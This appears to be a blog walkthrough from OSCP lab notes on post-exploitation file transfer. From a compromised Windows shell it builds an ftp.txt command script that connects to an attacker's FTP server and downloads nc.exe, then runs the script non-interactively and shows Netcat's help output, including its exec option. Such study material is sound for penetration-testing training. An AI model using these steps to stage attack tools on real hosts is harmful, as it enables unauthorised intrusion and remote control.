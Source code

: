 In windows system

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/52.jpg)

In our kali system

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/53.jpg)

• ftp -s option accepts a text-based command list that effectively makes the client non interactive.

 On our attacking machine(kali), we will set up an FTP server, and we will initiate a download request for the Netcat binary from the compromised Windows host.
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/54.jpg)
 
 •First, we will place a copy of nc.exe in our /ftphome directory:
 
 •We have already installed and configured Pure-FTPd on our Kali machine, but we will restart it tomake sure the service is available:
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/55.jpg)
 
 • Next, we will build a text file of FTP commands we wish to execute, using the echo command as shown.
 
• below shell is compromised windows machine accessing from kali machine

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/56.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/57.jpg)
 
 C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt

 
 At this point, we should have a successfully authenticated FTP connection and we can script the commands necessary to transfer our file.
 (from kali to windows)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/58.jpg)
 
 When the ftp command in Listing above runs, our download should have executed, and a working copy of nc.exe should appear in our current directory:
 
 C:\Users\offsec> ftp -v -n -s:ftp.txt
ftp> open 192.168.1.31 21
ftp> USER offsec
ftp> bin
ftp> GET nc.exe
ftp> bye
C:\Users\offsec> nc.exe -h
[v1.10 NT]
connect to somewhere: nc [-options] hostname port[s] [ports] ...
listen for inbound: nc -l -p port [options] [hostname] [port]
options:
 -d detach from console, stealth mode
 -e prog inbound program to exec [dangerous!!]
 -g gateway source-routing hop point[s], up to 8
 -G num source-routing pointer: 4, 8, 12, ...
 -h this cruft
 -i secs delay interval for lines sent, ports scanned
 -l listen mode, for inbound connects
 